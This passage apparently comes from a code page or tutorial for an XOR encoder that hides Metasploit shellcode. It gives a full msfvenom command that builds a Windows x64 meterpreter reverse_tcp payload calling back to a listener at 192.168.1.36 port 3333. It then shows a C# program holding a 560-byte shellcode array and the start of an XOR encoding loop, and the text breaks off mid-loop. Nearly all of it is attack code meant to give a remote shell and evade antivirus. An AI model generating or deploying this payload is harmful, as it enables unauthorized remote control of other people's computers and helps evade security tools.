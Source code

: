 ### Create msfvenom shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.36 LPORT=3333 -f csharp 
```

### Place shellcode in and run

```csharp
using System;
using System.Text;

namespace XOR_encoder
{
    class Program
    {
        static void Main(string[] args)
        {
            // Msfvenom shellcode here
            byte[] buf = new byte[560] {
            0xeb,0x27,0x5b,0x53,0x5f,0xb0,0x49,0xfc,0xae,0x75,0xfd,0x57,0x59,0x53,0x5e,
            0x8a,0x06,0x30,0x07,0x48,0xff,0xc7,0x48,0xff,0xc6,0x66,0x81,0x3f,0xd1,0xca,
            0x74,0x07,0x80,0x3e,0x49,0x75,0xea,0xeb,0xe6,0xff,0xe1,0xe8,0xd4,0xff,0xff,
            0xff,0x13,0x49,0xef,0x5b,0x90,0xf7,0xe3,0xfb,0xdf,0x13,0x13,0x13,0x52,0x42,
            0x52,0x43,0x41,0x42,0x5b,0x22,0xc1,0x45,0x76,0x5b,0x98,0x41,0x73,0x5b,0x98,
            0x41,0x0b,0x5b,0x98,0x41,0x33,0x5e,0x22,0xda,0x5b,0x98,0x61,0x43,0x5b,0x1c,
            0xa4,0x59,0x59,0x5b,0x22,0xd3,0xbf,0x2f,0x72,0x6f,0x11,0x3f,0x33,0x52,0xd2,
            0xda,0x1e,0x52,0x12,0xd2,0xf1,0xfe,0x41,0x5b,0x98,0x41,0x33,0x98,0x51,0x2f,
            0x5b,0x12,0xc3,0x52,0x42,0x75,0x92,0x6b,0x0b,0x18,0x11,0x1c,0x96,0x61,0x13,
            0x13,0x13,0x98,0x93,0x9b,0x13,0x13,0x13,0x5b,0x96,0xd3,0x67,0x74,0x5b,0x12,
            0xc3,0x43,0x98,0x5b,0x0b,0x57,0x98,0x53,0x33,0x5a,0x12,0xc3,0xf0,0x45,0x5b,
            0xec,0xda,0x5e,0x22,0xda,0x52,0x98,0x27,0x9b,0x5b,0x12,0xc5,0x5b,0x22,0xd3,
            0xbf,0x52,0xd2,0xda,0x1e,0x52,0x12,0xd2,0x2b,0xf3,0x66,0xe2,0x5f,0x10,0x5f,
            0x37,0x1b,0x56,0x2a,0xc2,0x66,0xcb,0x4b,0x57,0x98,0x53,0x37,0x5a,0x12,0xc3,
            0x75,0x52,0x98,0x1f,0x5b,0x57,0x98,0x53,0x0f,0x5a,0x12,0xc3,0x52,0x98,0x17,
            0x9b,0x5b,0x12,0xc3,0x52,0x4b,0x52,0x4b,0x4d,0x4a,0x49,0x52,0x4b,0x52,0x4a,
            0x52,0x49,0x5b,0x90,0xff,0x33,0x52,0x41,0xec,0xf3,0x4b,0x52,0x4a,0x49,0x5b,
            0x98,0x01,0xfa,0x58,0xec,0xec,0xec,0x4e,0x5a,0xad,0x64,0x60,0x21,0x4c,0x20,
            0x21,0x13,0x13,0x52,0x45,0x5a,0x9a,0xf5,0x5b,0x92,0xff,0xb3,0x12,0x13,0x13,
            0x5a,0x9a,0xf6,0x5a,0xaf,0x11,0x13,0x1e,0x16,0xd3,0xbb,0x12,0x37,0x52,0x47,
            0x5a,0x9a,0xf7,0x5f,0x9a,0xe2,0x52,0xa9,0x5f,0x64,0x35,0x14,0xec,0xc6,0x5f,
            0x9a,0xf9,0x7b,0x12,0x12,0x13,0x13,0x4a,0x52,0xa9,0x3a,0x93,0x78,0x13,0xec,
            0xc6,0x79,0x19,0x52,0x4d,0x43,0x43,0x5e,0x22,0xda,0x5e,0x22,0xd3,0x5b,0xec,
            0xd3,0x5b,0x9a,0xd1,0x5b,0xec,0xd3,0x5b,0x9a,0xd2,0x52,0xa9,0xf9,0x1c,0xcc,
            0xf3,0xec,0xc6,0x5b,0x9a,0xd4,0x79,0x03,0x52,0x4b,0x5f,0x9a,0xf1,0x5b,0x9a,
            0xea,0x52,0xa9,0x8a,0xb6,0x67,0x72,0xec,0xc6,0x96,0xd3,0x67,0x19,0x5a,0xec,
            0xdd,0x66,0xf6,0xfb,0x80,0x13,0x13,0x13,0x5b,0x90,0xff,0x03,0x5b,0x9a,0xf1,
            0x5e,0x22,0xda,0x79,0x17,0x52,0x4b,0x5b,0x9a,0xea,0x52,0xa9,0x11,0xca,0xdb,
            0x4c,0xec,0xc6,0x90,0xeb,0x13,0x6d,0x46,0x5b,0x90,0xd7,0x33,0x4d,0x9a,0xe5,
            0x79,0x53,0x52,0x4a,0x7b,0x13,0x03,0x13,0x13,0x52,0x4b,0x5b,0x9a,0xe1,0x5b,
            0x22,0xda,0x52,0xa9,0x4b,0xb7,0x40,0xf6,0xec,0xc6,0x5b,0x9a,0xd0,0x5a,0x9a,
            0xd4,0x5e,0x22,0xda,0x5a,0x9a,0xe3,0x5b,0x9a,0xc9,0x5b,0x9a,0xea,0x52,0xa9,
            0x11,0xca,0xdb,0x4c,0xec,0xc6,0x90,0xeb,0x13,0x6e,0x3b,0x4b,0x52,0x44,0x4a,
            0x7b,0x13,0x53,0x13,0x13,0x52,0x4b,0x79,0x13,0x49,0x52,0xa9,0x18,0x3c,0x1c,
            0x23,0xec,0xc6,0x44,0x4a,0x52,0xa9,0x66,0x7d,0x5e,0x72,0xec,0xc6,0x5a,0xec,
            0xdd,0xfa,0x2f,0xec,0xec,0xec,0x5b,0x12,0xd0,0x5b,0x3a,0xd5,0x5b,0x96,0xe5,
            0x66,0xa7,0x52,0xec,0xf4,0x4b,0x79,0x13,0x4a,0x5a,0xd4,0xd1,0xe3,0xa6,0xb1,
            0x45,0xec,0xc6,0xd1,0xca };

            // Array holding encrypted shellcode
            byte[] encoded =  new byte[buf.Length];

            // loop to iterate the bytes and XOR
            for (int i = 0; i < buf.Length; i++)
```